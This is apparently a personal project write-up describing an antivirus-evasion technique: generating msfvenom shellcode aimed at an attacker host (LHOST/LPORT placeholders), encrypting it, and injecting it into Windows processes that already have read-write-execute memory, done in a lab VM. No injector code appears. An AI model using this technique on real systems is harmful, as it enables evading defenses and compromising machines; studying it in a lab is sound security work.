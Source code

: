 ### Introduction

So I don't know why i've done some malware analysis, i've also tried some malware development in an environment 
where windows defender was always disabled and i've never tried bypassing it. So I decided to start with something simple.
I started with a simple google search...How to bypass windows defender on 2 blog post, one was related to Loki C2 and the 
other with injecting shellcode inside a process that already had READ,WRITE AND EXECUTE memory sections.

I guess you already know which one I chose to start with, i chose the path of injecting shellcode.
Here's the blog I used as a reference : https://medium.com/@s12deff/bypass-windows-defender-executing-shellcode-using-freeloaderinjector-7deeba8796e2
In that blog he use the undocumented API : `ntdll.dll`. I didn't want to just copy and paste it, so i adapted is code to use it with the documented API
and I removed unnecessary stuff, which provided me a good practice and refresher.


### Setup

- Kali VM
- Windows 10 VM
- Visual Studio
- Metasploit
- Your Head
- ChatGPT (for reference of course😆)

### Walkthrough

1. So first, I started by generating a shellcode with msfvenom : `msfvenom -p <PAYLOAD> LHOST=<YOUR_IP> LPORT=<PORT> -f c > <NAME>.c`
2. Encrypt the payloadm I have an encryptor program that i used, you can find it on my Github (you can create your own too) : `Crypter`
3. The main program will
    - Get an handle on each processes and duplicate them (for future implementations i duplicate them, to be able to perform additionnal executions)
    - Check if the process has RWX memory section and get that address in memory
    - Decrypt the payload and inject it into that section

